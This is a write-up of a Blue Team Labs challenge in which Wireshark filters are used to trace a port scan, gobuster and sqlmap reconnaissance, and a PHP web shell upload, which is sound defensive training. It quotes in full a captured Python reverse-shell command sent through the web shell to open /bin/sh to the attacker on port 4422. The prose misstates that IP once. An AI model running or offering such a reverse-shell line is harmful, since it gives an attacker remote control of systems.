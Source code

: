 ```yaml
---
layout: post
title:  "BTLO | Network Analysis - Web Shell"
date:   2021-09-15 22:30:00
tags: [Security, BlueTeamLabs, Cyber Defense]
style: border
color: primary
description: "Blue Team Labs: Network Analysis - Web Shell Writeup"
---
```


This is my write-up for [Network Analysis - Web Shell](https://blueteamlabs.online/home/challenge/12) on Blue Team Labs.

**P.S: I highly encourage you to try solving the challenges on your own first then check this writeup if you are stuck.**

**Scenario**

>The SOC received an alert in their SIEM for ‘Local to Local Port Scanning’ where an internal private IP began scanning another internal system. 

To solve this challenge we are required to download the task file, extract the zip file using the password provided, and analyze the `.pcap` file using [Wireshark](https://www.wireshark.org/). 


## **Q.** What is the IP responsible for conducting the port scan activity?
**A.** 10.251.96.4

You might notice when we first open up the PCAP file a lot is going on. In fact, we have 17508 packets in this capture. We're looking for a needle in a hay stack. With that said, we need to sift through the noise vs what is abnormal traffic. As we go along you'll notice I'm using filters heavily to do this.

First, we need to get an idea of what hosts are communicating. A great way to do this initially is to view TCP conversations. To do this in Wireshark we need to navigate to ***Statistics > Conversation > TCP***. This will give us a more digestable view of what ip addresses are communicating, as well as the destination and source ports used.

Upon clicking the **TCP tab**, we see several entries of port scan activity orginating from the IP `10.251.96.4`.

![](https://i.imgur.com/asxEtZK.png)

## **Q.** What is the port range scanned by the suspicious host?
**A.** 1-1024

 I'd advise sorting the **Port B** column to see the first and last port range scanned.

 ![](https://i.imgur.com/k8TIAyR.png) 

## **Q.** What is the type of port scan conducted?
**A.** TCP SYN

Having concluded that `10.251.96.4` is conducting the port scan, we can filter for `ip.src==10.251.96.4` to zone in only on that IP.

![](https://i.imgur.com/abOm3sd.png)

We can see `SYN` in alot of the packets info section as well as the `SYN` Flag is set under **Transmission Control Protocol**.

## **Q.** Two more tools were used to perform reconnaissance against open ports, what were they?
**A.** Gobuster 3.0.1, sqlmap 1.4.7

To find out what reconnaissance tools were used we need to utilize **User Agent Strings**. This string will often reveal what agent is used to access a host.

The following filter below will show us all packets with the target destination IP, `10.251.96.5` and that have a user agent string that is not from a Firefox web browser. Why did we do this?

Well we want to filter out as much noise as possible. We only need to see the user agents used that do not originate from a web browser. Therefore, we used the `!=` aka `NOT` operator in reference to Mozilla Firefox.

`ip.dst==10.251.96.5 && http.user_agent != "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"`

![](https://i.imgur.com/54KR8E4.png)

We see several `HTTP GET` requests. Inspecting those packets further reveals the use of `gobuster 3.0.1`, a tool designed to discover possible hidden web directories or files.

Since we know about `gobuster`. We can modify our filter from before to now filter out the `gobuster` user agent string honing in on the 2nd tool used.

`ip.dst==10.251.96.5 && http.user_agent != "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" && http.user_agent != "gobuster/3.0.1"`

![](https://i.imgur.com/aorwa90.png)

After applying our modified filter, the results show more packets but with a different user agent string, `sqlmap 1.4.7`. This tool is popular for automating the process of detecting SQL injection vulnerabilities.

## **Q.** What is the name of the php file through which the attacker uploaded a web shell?
**A.** editprofile.php

Websites have several request methods but the two most common are `GET` and `POST` requests.

- `GET` is for reading or retrieving information about the webpage
- `POST` is for submitting information to the webpage. Usually this is in the constuct of forms.

That said, since the attacker was "uploading" a web shell it's safe to conclude this is a `POST` request. We can tell Wireshark to filter for `POST` requests using the filter string below.

`ip.dst==10.251.96.5 && http.request.method == "POST"`

Drilling down further:

`ip.dst==10.251.96.5 && http.request.method == "POST" && http.user_agent != "gobuster/3.0.1" && http.user_agent != "sqlmap/1.4.7#stable (http://sqlmap.org)"`

Notice I again used `!=` aka `NOT` operators to filter out the `POST` requests made earlier by `gobuster` and `sqlmap` but took out the Mozilla Firefox filter. This is because we know the attacker used a web browser to access the form.

![](https://i.imgur.com/TIqrBh1.png)

Looking closer we see the `Referer` references `http://10.251.96.5/editprofile.php`.

## **Q.** What is the name of the web shell that the attacker uploaded?
**A.** dbfunctions.php

Digging further into packet no. 16102 we can follow the TCP Stream by selecting the packet and pressing `Ctrl`{: .key}+`Alt`{:.key}+`Shift`{:.key}+`T`{:.key}

Following the TCP Stream, this cleanly lays out the packet information, where we see the uploaded filename `dbfunctions.php`.

NOTE: You can also filter the TCP stream with the following filter:

`tcp.stream==1270`

![](https://i.imgur.com/S8QqVH6.png)

## **Q.** What is the parameter used in the web shell for executing commands?
**A.** cmd

Looking at the code of the `dbfunctions.php` web shell we can see that the parameter used in the web shell for executing commands is `cmd`.

![](https://i.imgur.com/OBNFMZg.png)

## **Q.** What is the first command executed by the attacker?
**A.** id

Unforunately the attacker successfully was able to successfully upload the web shell. Now we can expect `GET` requests referencing the web shell to follow as `cmd`.

We can filter this and see what commands the attacker is executing.

`ip.dst==10.251.96.5 && http.request.method == "GET"`

Drilling down further:

`ip.dst==10.251.96.5 && http.request.method == "GET" && http.request.uri contains "/uploads/dbfunctions.php"`

We see commands `id` and `whoami` ran. Looks like the attacker wants to know what user was just compromised.

![](https://i.imgur.com/37cJJoO.png)

## **Q.** What is the type of shell connection the attacker obtains through command execution?
**A.** reverse

The third command is a Python script. Follow the TCP Stream to view it.

```console
GET /uploads/dbfunctions.php?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.251.96.4%22,4422));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27 HTTP/1.1
```

Dissecting the Python script tells us that is it a reverse shell to the IP address `210.251.96.4` on port `4422` using `/bin/sh`.

## **Q.** What is the port he uses for the shell connection?
**A.** 4422

As stated before the Python script uses port `4422`

**References:**
- [https://www.wireshark.org/docs/](https://www.wireshark.org/docs/)